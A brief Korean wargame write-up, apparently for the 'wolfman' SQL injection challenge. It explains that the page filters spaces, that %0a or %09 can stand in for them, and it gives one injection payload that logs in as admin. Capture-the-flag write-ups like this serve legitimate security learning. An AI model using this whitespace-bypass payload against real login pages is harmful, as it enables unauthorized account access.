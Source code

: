 # wolfman

공백을 필터링 하고 있다.   
<br/>

* 공백은 %0a, %09 등으로 우회할 수 있다.   
<br/>
   
![](1.PNG)   
```
?pw=aa'%0aor%0aid='admin'%23
```

